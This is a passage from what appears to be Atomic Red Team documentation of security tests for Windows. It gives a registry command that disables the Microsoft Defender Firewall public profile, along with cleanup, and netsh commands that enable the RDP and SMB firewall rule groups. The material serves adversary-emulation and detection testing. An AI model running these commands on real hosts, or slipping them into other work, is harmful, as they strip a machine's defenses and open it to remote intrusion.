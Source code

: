 <br/>
<br/>

## Atomic Test #2 - Disable Microsoft Defender Firewall via Registry
Disables the Microsoft Defender Firewall for the public profile via registry
Caution if you access remotely the host where the test runs! Especially with the cleanup command which will re-enable firewall for the current profile...

**Supported Platforms:** Windows


**auto_generated_guid:** afedc8c4-038c-4d82-b3e5-623a95f8a612






#### Attack Commands: Run with `command_prompt`! 


```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile" /v "EnableFirewall" /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:
```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile" /v "EnableFirewall" /t REG_DWORD /d 1 /f
```





<br/>
<br/>

## Atomic Test #3 - Allow SMB and RDP on Microsoft Defender Firewall
Allow all SMB and RDP rules on the Microsoft Defender Firewall for all profiles.
Caution if you access remotely the host where the test runs! Especially with the cleanup command which will reset the firewall and risk disabling those services...

**Supported Platforms:** Windows


**auto_generated_guid:** d9841bf8-f161-4c73-81e9-fd773a5ff8c1






#### Attack Commands: Run with `command_prompt`! 


```cmd
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="file and printer sharing" new enable=Yes
```
